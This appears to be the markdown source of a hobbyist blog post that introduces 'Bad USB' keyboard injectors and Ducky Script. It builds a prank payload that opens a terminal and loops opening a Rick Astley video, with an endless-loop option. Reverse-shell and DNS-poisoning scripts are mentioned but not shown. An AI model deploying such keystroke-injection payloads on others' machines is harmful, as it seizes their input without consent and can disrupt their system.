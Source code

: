 ```yaml
---
title: "Introduction to Keyboard Injectors with Rick Astley"
date: 2020-02-11
category: "hardware"
excerpt: "Launch a Rick Roll bomb on your computer today!"
---
```




# DISCLAIMER:
Code in this project utilizes your browser for purposes it was not intended for. Do not plug a bad USB into any computer without the proper permissions from its owner.


## Bad USBs:
A "Bad USB" is a USB drive designed to perform malicious actions when plugged into a USB socket. This can range from frying a motherboard with high-voltage discharge to gaining a remote backdoor.


## Keyboard Injectors
A Keyboard injector is a USB stick programmed to initiate keystrokes at superhuman speeds when plugged in.

![Keyboard-Injector](/images/injector.gif){:class="img-responsive"}

One such device is the [Malduino](https://maltronics.com/collections/malduinos) by Maltronics.

The Malduino Elite has 4 switches corresponding to binary values 1 and 0. Depending on the switch combination, a particular script stored on the micro sd card will execute. For example, 1010.txt for gaining a reverse shell and 1110.txt for DNS poisoning.  
![malduino](/images/malduino_img.jpg){:class="img-responsive"}
## Ducky Script Basics
The Malduino uses a scripting language called ducky script.

### DELAY
DELAY adds a pause in milliseconds to the script. This is useful if you want to give a process time to finish before executing the next line. The following is a delay of 1 second:
```bash
DELAY 1000
```
### STRING and ENTER
STRING is used to simulate characters typed on the keyboard. For example, 
```bash
STRING Hello!
```
would simulate the user typing "Hello!" on the keyboard. 
ENTER emulates the enter key.
```bash
STRING Hello!
ENTER
```
This will become useful once you need to navigate cmd/terminal or a built in search such as Spotlight.
### GUI
GUI simulates the Super key. This would be the command key on Mac and the Windows key on Windows. With this you gain access to various keyboard shortcuts.
```bash
GUI r
STRING cmd
ENTER
```
This script uses the Windows-key+r shortcut to pull up the Windows' “Run” box, type out cmd, and hit enter.
## The Script:
Firstly, access a shell using the methods mentioned above. For Mac, access spotlight then navigate to the terminal with the proper delay times (tweak delays so script runs as fast as possible). 
```bash
DELAY 2000
GUI space
DELAY 500
STRING terminal
DELAY 500
ENTER
```
Next, access a bash shell, in case bash isn't the default shell, and write out the script
*The delays are too long. Make sure to tweak them for efficiency*
```bash
DELAY 500
STRING bash
DELAY 500
ENTER
```
Create a loop to successively open browser windows, where `N` is the number of Windows to open.
```bash
STRING N=0
DELAY 500
ENTER
DELAY 500
STRING while [ $N -le 5 ]; do
DELAY 500
ENTER
```
*Use this to open an endless amount of brower windows*

```
STRING while: do
```
Use `open` in bash to open a browser with the specified link. The process may be slightly different on Windows, but the idea is still the same.
{% highlight bash %}
DELAY 500
STRING open https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 500
ENTER
DELAY 500
STRING N=$(( $N + 1 ))
DELAY 500
ENTER
DELAY 500
STRING done
DELAY 500
ENTER
DELAY 500
{% endhighlight %}
